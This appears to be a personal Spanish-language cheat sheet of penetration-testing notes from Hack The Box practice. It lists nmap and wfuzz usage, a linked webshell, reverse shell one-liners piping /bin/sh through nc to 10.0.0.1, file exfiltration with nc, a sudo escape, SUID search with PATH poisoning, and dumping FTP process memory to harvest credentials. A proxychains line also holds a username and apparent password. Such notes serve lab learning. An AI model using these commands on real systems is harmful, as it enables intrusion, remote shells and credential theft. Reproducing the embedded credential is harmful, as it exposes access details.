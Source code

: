 # Aprendiendo de Hackthebox.com

- sitios: 
    - https://brainful.blog/2022/01/19/enumeration-2/

- sitios wordlist: 
    - sub dominios: 
        - https://github.com/theMiddleBlue/DNSenum/blob/master/wordlist/subdomains-top1mil-20000.txt

- usando nmap
    - `-sU` scanear puertos UDP
    - `-p80` escanear puerto 80, `-p-` escanear todos los puertos
    - `-sS` tcp syn ping
    - `-v` verbose
    - `-Pn` skip ping
    - `-A` agressive mode, muestra info mas detallada. *tratar de usar solo con los puertos descubiertos.*

- Web Fuzzer (*remplazo de palabras en el url*)
    - `wfuzz -c -z range,1-10 http://www.sitio.com/FUZZ` la palabra **FUZZ** seria remplazada por numeros del 1 al 10.
    - `wfuzz -c -z file,palabras.txt http://www.sitio.com/FUZZ` palabra **FUZZ** seria remplazada por las palabras dentro del archivo.
    - con la opcion `--sc` fitramoslos resultados, p.e. `--sc 200` solo muestra los resultados con *200 OK.f* 
    - `-c` muestra la salida con colores
    - `-w palabras.txt` lo mismo q usar file,palabras.txt
    - `-L` seguir redirecciones.
    - `-H` header p.e. `-H "Host: FUZZ.sitio.htb"

- Reverse shell
    - si se puede subir archivos al sitio se usa un [simple webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
    - [reverse shell cheatsheet](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/).
    - `nc -e /bin/sh 10.0.0.1 1234`
    - si `nc` no soporte la opcion `-e`: 
        - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`
    - si se conecta usamos:
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` luego Presionar `Ctrl+Z` e ingresar `stty raw -echo`. Posteriormente ingresar `fg` y presionar ENTER dos veces y regresara al reverse shell pero podremos usar ctrl+c y ctrl+z

    - si usamos `sudo -l` y no funciona usamos:
        - [GTFObins](https://gtfobins.github.io/gtfobins/at/) `echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`

    - bajar un archivo con `nc`:
        - en nuestra pc con ip 10.10.14.81: `nc -nvlp 10.10.14.81 4444 > file`
        - en el pc remoto: `nc 10.10.14.81 4444 < file`

- SSH tunneling
    - ssh -D1234 user@10.10.11.136
    - bajamos el `foxyproxy` y configuramos:
        - proxy type: SOCKS5
        - Proxy IP: 127.0.0.1
        - Port: 1234
        - Send DNS through SOCKS5 proxy: enable
    - para aplicaciones de linea de comandos usamos `proxychains`
        - editamos nano /etc/proxychains.conf
        - opcion: strict_chain
        - socks5 127.0.0.1 1234 daniel HotelBabylon23

- [Buscar archivos SUID](https://blog.certcube.com/suid-executables-linux-privilege-escalation/) (permisos: rws) para usar el path poison:
    - `find / -user root -perm -4000 -print 2>/dev/null`
    - `find / -perm -u=s -type f 2>/dev/null`
    - `find / -user root -perm -4000 -exec ls -ldb {} \;`
    - [path poisoning](https://betterprogramming.pub/becoming-root-via-a-misconfigured-path-720a52981c93) : 
        - `export PATH=/tmp:$PATH`
        - en /tmp suplantamos el nombe de un commando asi cuando
        se llame a ese comando ejecutara el commando en /tmp.


- Dump memory
    - `gdb -p <FTP_PROCESS_PID>`
    - `(gdb) info proc mappings`
    - `(gdb) q`
    - `(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>`
    - `(gdb) q`
    - `strings /tmp/mem_ftp #User and password` <- buscar strings



